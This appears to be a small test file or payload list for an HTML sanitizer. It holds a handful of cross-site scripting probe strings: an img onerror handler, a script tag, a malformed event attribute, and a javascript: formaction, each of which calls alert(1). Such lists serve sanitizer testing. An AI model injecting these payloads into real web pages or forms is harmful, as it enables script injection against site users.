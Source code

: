 # -b-
<b>test</b>test
  <img src=x onerror=alert(1)>
  <script>alert(1)</script>
  <img src="x onmouseover="alert('xxs')">
<'';!--"<<XSS>=&{()}
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
